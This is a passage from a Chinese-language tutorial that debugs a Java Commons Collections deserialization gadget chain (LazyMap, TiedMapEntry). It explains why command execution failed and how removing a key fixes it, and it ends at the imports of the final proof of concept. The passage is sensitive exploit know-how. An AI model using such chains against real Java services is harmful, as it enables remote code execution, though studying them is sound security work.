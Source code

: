 第二次时没有进入 if 方法
![image-20221008152629215](images/image-20221008152629215.png)

为什么会调用两次`LazyMap#get()`方法呢？仔细再跟一遍才想起来`HashMap#put()`方法也会调用到`hashcode()`
![image-20221008152723595](images/image-20221008152723595.png)

因此在`expMap.put(tiedMapEntry,"valueTest");`语句时就一次触发了一次`LazyMap#get()`利用链，但因为我们故意制造的`fakeTransformers`所以没有触发命令执行，但是却在这里将`keyTest`添加进了`outerMap`中。
![image-20221008153011697](images/image-20221008153011697.png)

因此在经过反序列化后调用利用链时，再次进行 if 判断时，`keyTest`在`outermap`对象里，跳过了判断进入 else 语句，导致无法触发命令执行。

根据 p 牛的做法就是再写一句`outerMap.remove("keyTest");`将 key 从 `outerMap`中移除，因此最终 POC 为：
```java
package com.serialize;

/**
 * Created by dotast on 2022/10/4 21:55
 */
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;
```
